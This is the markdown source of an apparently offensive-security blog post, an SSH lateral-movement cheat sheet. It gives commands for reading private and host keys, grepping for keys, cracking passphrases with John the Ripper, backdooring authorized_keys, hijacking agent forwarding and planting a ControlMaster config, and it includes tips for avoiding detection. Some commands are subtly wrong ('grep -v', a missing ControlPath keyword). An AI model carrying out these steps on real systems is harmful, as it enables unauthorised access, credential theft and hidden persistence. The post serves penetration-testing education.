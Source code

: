 ```yaml
---
layout: blog_item
title: "SSH Lateral Movement Cheat Sheet"
date:   2021-06-03 15:29:10
author: Arr0way
description: 'SSH lateral movement cheat sheet, a collection of lateral movement techniques to move deeper through the network.'
categories: [cheat-sheet]
tags:

- 'Linux Lateral Movement'
---
```


* list element with functor item
{:toc}

## What is a Lateral Movement 

A lateral movement typically occurs after a host has been compromised via a reverse shell, and foothold in the network is obtained. Fully compromising the target machine by performing Linux privilege escalation or Windows privilege escalation could be advantageous due to the increased access to files or operating system functionality leveraged by a root level account.

This article focuses specifically on SSH lateral movement techniques on Linux.

<!--more-->

## SSH Lateral Movement 

SSH private keys are typically an easy way to progress through the network, and are often found with poor permissions or duplicated in home directories. This article does not cover SSH pivoting in depth, we have a separate resource for [SSH pivoting](https://highon.coffee/blog/ssh-meterpreter-pivoting-techniques/).  

<div class="note info">
  <h5>Enumerate Non UNIX Based Hosts for Private Keys</h5>
  <p>SSH is not specific to UNIX based operating systems, consider enumerating Windows target for SSH private keys.</p>
</div>

### Manually Look for SSH Keys

Check home directories and obvious locations for private key files: 

{% highlight bash %}

/home/*
cat /root/.ssh/authorized\_keys 
cat /root/.ssh/identity.pub 
cat /root/.ssh/identity 
cat /root/.ssh/id\_rsa.pub 
cat /root/.ssh/id\_rsa 
cat /root/.ssh/id\_dsa.pub 
cat /root/.ssh/id\_dsa 
cat /etc/ssh/ssh\_config 
cat /etc/ssh/sshd\_config 
cat /etc/ssh/ssh\_host\_dsa\_key.pub 
cat /etc/ssh/ssh\_host\_dsa\_key 
cat /etc/ssh/ssh\_host\_rsa\_key.pub 
cat /etc/ssh/ssh\_host\_rsa\_key 
cat /etc/ssh/ssh\_host\_key.pub 
cat /etc/ssh/ssh\_host\_key
cat ~/.ssh/authorized\_keys 
cat ~/.ssh/identity.pub 
cat ~/.ssh/identity 
cat ~/.ssh/id\_rsa.pub 
cat ~/.ssh/id\_rsa 
cat ~/.ssh/id\_dsa.pub 
cat ~/.ssh/id\_dsa 

{% endhighlight %}

### Search For Files Containing SSH Keys

{% highlight bash %} 
grep -irv "-----BEGIN RSA PRIVATE KEY-----" /home/*
grep -irv "BEGIN DSA PRIVATE KEY" /home/*

grep -irv "BEGIN RSA PRIVATE KEY" /*
grep -irv "BEGIN DSA PRIVATE KEY" /*

{% endhighlight %}


### Identify The Host for the Key

<div class="note tip">
  <h5>Hashed known_hosts</h5>
  <p>Modern Linux systems may hash the known_hosts file entries to help prevent against enumeration.</p>
</div>

If you find a key you then need to identify what server the key is for. In an attempt to idenitfy what host the key is for the following locations should be checked: 

{% highlight bash %}
/etc/hosts 
~/.known_hosts
~/.bash_history 
~/.ssh/config 
{% endhighlight %}

### Cracking SSH Passphrase Keys

If the discovered SSH key is encrypted with a passphrase this can be cracked locally (much faster), below are several methods. If you have access to a GPU hashcat should be leveraged to improve the cracking time. 

#### Cracking SSH Passphrase with John the Ripper 

John the Ripper has a function to convert he key to a hash called john2hash.py and comes pre installed on Kali.

1. Convert the hash: python /usr/share/john/ssh2john.py id_rsa > id_rsa.hash-john 
2. Use a comprehensive wordlist: john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.hash-john 
3. Wait and hope 

<div class="note warning">
  <h5>Help Avoid Detection</h5>
  <p>Avoid directly connecting from a unknown host to the target SSH server, use an already known host to help prevent detection alerts being issued. </p>
</div>

### SSH Passphrase Backdoor

While you have access to the compromised host, it is typically a good idea to backdoor the SSH authorized_keys file which will allow for passwordless login at a point in the future. This should provide an easier and more reliable connection than exploiting and accessing via a reverse shell; and potentially reduce the risk of detection. 

Adding the key is simply a case of paste a SSH public key, generated on your attacking machine and pasting it into the ~/ssh/authorized_keys file on the compromised machine. 

1. run ssh-keygen -t rsa -b 4096 
2. cat id_rsa.pub and copy the file contents 
3. echo "SSH key data" >> ~/.ssh/authorized_keys 
4. Test you can connect using the private key without being prompted for a password 

## SSH Agent Forwarding Hijacking

Starting point: You have SSH already backdoored the compromised host by adding your public key to the ~/.authorized_keys file.  

### How SSH Agent Works

SSH agent works by allowing the Intermediary machine to pass-through (forward) your SSH key from your client to the next downstream server, allowing the machine in the middle (potentially a bastion host) to use your key without having physical access to your key as they are not stored on the intermediate host but simply forwarded on to the downstream target server. 

- Access the machine where the existing victim user session is established
- Root level access to the machine where the victim session is established
- A current victim SSH  connection with agent forwarding enabled 

Your Machine => Intermediary Host (forwards your key) => Downstream Machine 

#### The Risk

The risk here is that if you have an open session and the intermediatory machine 

### How To Hijack SSH Agent Forwarding

Attacking Machine => Compromised Intermediary Host (with SSH Key) => Downsteam Machine (final destination) 

SSH agent forwarding allows a user to connect to other machines without entering passwords. This functionality can be exploited to access any host the compromised users SSH key has access to (without having direct access to the keys), while there is an active session. 

A potentially easier way to think of SSH agent forwarding, is to think of it as assigning the SSH key to the active SSH session, while the session is in place it is possible to access the SSH key and connect to other machines that the SSH key has access.     

In order to exploit SSH agent forwarding an active session must be open between the user client (that you wish to hijack) and the compromised intermediary host. You will also require access to the host where the user is connected with superuser privileges (such as su - username) to access the account running the active SSH session you wish to hijack.

<div class="note tip">
  <h5>If -A SSH Connection Fails</h5>
  <p>If -A fails to connect, perform the following: ```echo "ForwardingAgent yes" >> ~/.ssh/config``` to enable agent forwarding. </p>
</div>

#### Client Instructions 

Run the following on your local client machine: 

You may need to create a new key, if so run ```ssh-add```. 

1. Open an SSH connection using agent forwarding to the compromised host  ```ssh -A user@compromsied-host``` 
2. Verify agent forwarding is working by using: ```ssh-add -l```
3. Obtain root: ```sudo -s```
4. Gain access to the account you wish to access:  ``` su - victim ```
5. Access any SSH connection the private key of the victim has access 

### SSH Hijacking with ControlMaster 

OpenSSH has a function called **ControlMaster** that enables the sharing of multiple sessions over a single network connection. Allowing you to connect to the server once and have all other subsequent SSH sessions use the initial connection. 

In order to exploit SSH ControlMaster you first need shell level access to the target; you will then need sufficient privileges to modify the config of a user to enable the  ControlMaster functionality.

1. Gain shell level access to the target machine 
2. Access the victim users home directory and create / modify the file ``` ~/.ssh/config ``` 
3. Add the following configuration: 

{% highlight bash %}
Host *

ControlMaster auto
~/.ssh/master-socket/%r@%h:%p
ControlPersist yes
{% endhighlight %}

4. ensure the master-socket directory exists if it does not, create it  ```mkdir ~/.ssh/master-socket/ ``` 
5. Ensure the correct permissions are in place for the config file  ```chmod 600 ~/.ssh/config ```
6. Wait for the victim to login and establish a connection to another server 
7. View the directory created at step 4 to observe the socket file:  ```ls -lat ~/.ssh/master-socket ```
8. To hijack the existing connection ssh to user@hostname / IP listed in step 7 


If you know of more techniques let me know on twitter @Arr0way 

Enjoy. 
